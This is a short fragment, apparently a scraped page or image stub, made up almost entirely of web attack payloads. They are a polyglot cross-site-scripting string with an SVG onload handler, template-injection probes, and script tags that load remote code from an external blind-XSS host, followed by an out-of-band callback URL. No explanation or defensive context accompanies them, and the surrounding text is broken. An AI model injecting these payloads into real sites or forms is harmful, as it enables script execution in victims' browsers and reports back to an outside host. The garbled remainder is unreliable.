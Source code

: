 '"><svg/onload=prompt(5);>{{7*7}}
${{48*53}}`'";--><sCRIpt sRc=//s6.xss.ht></sCRIpt>

"><script/src=//s6.xss.ht></script>

http://fc52a7e8b87e98a922d32ddf391a9ca4.m.pipedream.net
